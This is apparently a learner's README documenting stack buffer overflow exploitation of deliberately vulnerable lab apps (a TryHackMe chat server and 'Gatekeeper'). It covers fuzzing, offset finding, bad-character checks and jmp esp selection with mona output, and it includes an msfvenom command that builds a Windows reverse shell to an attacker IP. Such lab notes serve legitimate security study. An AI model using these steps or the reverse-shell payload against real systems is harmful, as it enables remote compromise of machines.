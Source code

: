 # BoF
Buffer Overflow Script
(Typos exist)

We start with saying. This is just for documentation and me for learning Buffer Overflows.
I will explain in the script what is goning on instead of writing it here.
Sometimes I edit script 10 times to get it to work, and I do not want to update the README every time.

More details and step by step can be bound here: 
https://jensoroger.wordpress.com/2021/01/19/explain-in-my-own-way-how-to-do-basic-buffer-overflow-with-help-from-realtryhackme-bufferoverlow-hacking-infosec-linux4hackers-pentest-pentesting-redteam/

## Step 1 General about fuzzing
The goal here is to crash the application and make the application execute "our" code that we decide. You need to know how the application works, are login first and the something else that we want to fuzz (crash).

## Step 2 Finding the offset
The goal here is to get control of EIP in the stack, for that to happend we need to find the offset. 

### Step 2.1 (fuzz.py)
Crash the application with fuzz.py and see if EIP contains AAAA.
What is needed are in the script. 
ip, port, string

We also need to verify with ex. Immunity Debugger that EIP contains AAAA


### Step 2. Crash the application and find offset (payload1.py)
Here we want to try finding out if we can control the buffer
We create a payload that are random with pattern_create.rb and then verify if we can find the offset for example with Immunty Debugger.

ip, port, overflow, payload (random data), buffer

Immunity Debugger and mona are used for this

### Step 2.2 Verify the offset (payload2.py)
Here we just verify that all is correct. The EIP shall contain AAAA

ip, port, offsett, retn, payload, buffer, 

Immunity Debugger and mona are used for this

## Step 3 Find bad characters that we can not use in our all characters \x00  (payload3.py)
ip, port, offsett, retn, payload = bad charachter, buffer

Immunity Debugger and mona are used for this

!mona bytearray -b "\x00"

!mona compare -f C:\mona\oscp\bytearray.bin -a "ESP"

 Message=Possibly bad chars: 02 04

## Step 3.1 Find characters minus 3.1 founded  characters (payload3.py edited)
ip, port, offsett, retn, payload = bad charachter, buffer

Immunity Debugger and mona are used for this

!mona bytearray -b "\x00\x02\x04"

!mona compare -f C:\mona\"procename"bytearray.bin -a "ESP"

Do this until you have Unmodified 

## Step 4 Finding jump adress (payload3.py)
In mona after step 3 and add the bad characters that you find.
!mona jmp -r esp -cpb "\x00\x02\x04"
Choose a nice adress in the list, if it do not work at the first time try one more in the list.

## Step 5 Creating the payload (payload4.py)
ip, port, offsett, retn, payload = buf, padding, buffer

Immunity Debugger and mona are used for this

Here you need to know what OS is running the application. It is hard to create a reverse shell from Windows machine with a payload for Linux.
Also the padding my need som ajustments.

Payload exemples that you can use the out put in the script
LHOST=Your attacker box IP
LPORT=What port will the victim use to connect to your attack box
-b= That is the bad characters that you will find in step 3
-f=The output will be in pyton, so we can add this payload to the script.

msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py

## Brainstorm from tryhackme
The main thing in this BoF was that the first thing that happens when you connect to the application on port 9999
is that a login appears.This has maximum 20 char. Tried first fuzzing that. But found out that this is not gonna happend.
When you enter a username and then you are getting a send message prompt and that is vulnerble.
So in our payload we need to sen Username and a payload.

##Fuzz
python2 ./fuzz.py 
Login with user name roger and fuzzing Chat with 100 bytes
.
.
Login with user name roger and fuzzing Chat with 2200 bytes
Could not connect to 172.21.21.28:9999

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

##Payload 
Create Payload payload.py

!mona findmsp -distance 2500

Offset 2012

0 bad characters

msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py

Log data, item 11
 Address=625014DF
 Message=  0x625014df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\chat server\essfunc.dll)

## Gatekeeper
SMB

gatekepper.exe

python2 ./fuzz.py 
Fuzzing hello 100 bytes
Fuzzing hello 200 bytes

msf-pattern_create -l 500

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500

!mona findmsp -distance 500

Log data, item 22
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x39654138 (offset 146)

!mona bytearray -b "\x00"

!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 016A19F8

Log data, item 4
 Address=016A19F8
 Message=Possibly bad chars: 0b

!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 014E19F8

Bad Characters
!mona bytearray -b "\x00\x0a\x0b"

!mona jmp -r esp -cpb "\x00\x01\x0b"

Log data, item 4
 Address=080414C3
 Message=  0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\gatekeeper\gatekeeper.exe)

Log data, item 3
 Address=080416BF
 Message=  0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\gatekeeper\gatekeeper.exe)

\xbf\x16\x04\x08

User Shell
